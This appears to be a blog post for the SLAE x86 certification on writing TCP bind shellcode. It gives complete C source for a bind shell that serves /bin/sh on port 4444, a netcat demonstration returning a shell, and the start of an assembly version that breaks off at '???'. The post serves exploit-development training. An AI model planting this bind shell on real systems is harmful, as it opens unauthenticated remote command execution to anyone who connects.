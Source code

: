 ```yaml
---
title:  "SLAE x86 Assignment 1: TCP Bind Shellcode"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
#categories:
#  - exploit dev
classes: wide
#tags:
#  - exploit dev
#  - slae
---
```


![Shellcoding](/assets/images/slae32.png)

### TCP BIND SHELLCODE

* Binds to a port
* Executes a shell on an incoming connection
* Port number should be easily configurable

#### CONCEPT 

A TCP bind shellcode will bind a shell to a specific network port on a host listening for an incoming connection via the TCP protocol.

![Bind Shell](/assets/images/bind_shell.png)

Bind shells are easily blocked by firewalls and inbound filtering rules along with NAT preventing unsolicited incoming connections (except for certain ports with known services). This limits the target host's exposure and will prevent a port-binding shellcode from receiving a successful connection.

#### TCP BIND SHELL IN C
--------

The following C skeleton code will be used to demonstrate the TCP bind shell from a high-level language perspective. 

This will be used as a template for the low-level assembly code to follow:

```c
#include <stdio.h>  
#include <sys/types.h>   
#include <sys/socket.h>  
#include <netinet/in.h>  
  
int host_sockid;    // socket for host  
int client_sockid;  // socket for client  
      
struct sockaddr_in hostaddr;  // sockaddr struct  
  
int main()  
{  
    // Create socket  
    host_sockid = socket(PF_INET, SOCK_STREAM, 0);  
  
    // Initialize sockaddr struct to bind socket using port 4444  
    hostaddr.sin_family = AF_INET;  
    hostaddr.sin_port = htons(4444);  
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);  
  
    // Bind socket to IP/Port in sockaddr struct  
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr));  
      
    // Listen for incoming connections  
    listen(host_sockid, 2);  
  
    // Accept incoming connection using the socket created  
    client_sockid = accept(host_sockid, NULL, NULL);  
  
    // Duplicate file descriptors for STDIN, STDOUT and STDERR  
    dup2(client_sockid, 0);  
    dup2(client_sockid, 1);  
    dup2(client_sockid, 2);  
  
    // Execute /bin/sh  
    execve("/bin/sh", NULL, NULL);  
    close(host_sockid);  
      
    return 0;  
}
```

Note the various syscalls in the C code which will be utilised in the upcoming Assembly code:

* socket
* bind
* listen
* accept
* dup2
* execve

The syscalls in the C code relate to the socket network access protocol as referenced below in the Linux master header file:

```bash
osboxes@osboxes:~/Downloads/SLAE$ cat /usr/include/linux/net.h 

#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
```

A socket is defined in the man pages with domain, type and protocol properties:

```bash
osboxes@osboxes:~/Downloads/SLAE$ man socket

SOCKET(2)                              Linux Programmer's Manual                             SOCKET(2)

NAME
       socket - create an endpoint for communication

SYNOPSIS
       #include <sys/types.h>          /* See NOTES */
       #include <sys/socket.h>

       int socket(int domain, int type, int protocol);

DESCRIPTION
       socket() creates an endpoint for communication and returns a descriptor.

       The  domain  argument  specifies a communication domain; this selects the protocol family which
       will be used for communication.  These families are defined in <sys/socket.h>.   The  currently
       understood formats include:

       Name                Purpose                          Man page
       AF_UNIX, AF_LOCAL   Local communication              unix(7)
       AF_INET             IPv4 Internet protocols          ip(7)
```

The C code achieves the following objectives:

* Creates a socket
* Binds the socket to a port
* Configures the socket to listen for incoming connections
* Accepts connections on the newly created socket
* Redirects STDIN, STDOUT, and STDERR to the incoming client connection
* Executes a shell

#### POC 

The C code is compiled and executed demonstrating a successful bind connection and shell on the local host via port 4444:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc shell_bind_tcp.c -o shell_bind_tcp
osboxes@osboxes:~/Downloads/SLAE$ ./shell_bind_tcp 

osboxes@osboxes:~$ netstat -ano | grep 4444
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      off (0.00/0/0)
osboxes@osboxes:~$ nc 127.0.0.1 4444
id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```

#### TCP Bind Shell in Assembly
--------------

Using the C code as a reference and template for the Assembly code, the memory registers are initialized and cleared by performing an XOR operation against themselves which sets their values to 0:

```nasm
; initialize registers
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
```

Next step is to create the socket syscall

```nasm
; create socket
mov bl, 2       ; PF_INET value from /usr/include/i386-linux-gnu/bits/socket.h
mov cl, 1       ; setting up SOCK_STREAM, as seen in C code and pulled from /usr/include/i386-linux-gnu/bits/socket_type.h
mov dl, 6       ; setting protocol again as in C code, pulled from /usr/include/linux/netinet/in.h

mov ax, 359     ; syscall socket()

int 0x80        ; create the socket ( socket() in C code )
???
```

##### SLAE DISCLAIMER ####
---------

This blog post has been created for completing the requirements of the [SLAE certification] [slae-link].

Student ID: SLAE-xxxx

Github Repo: [Code][github-code]

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1
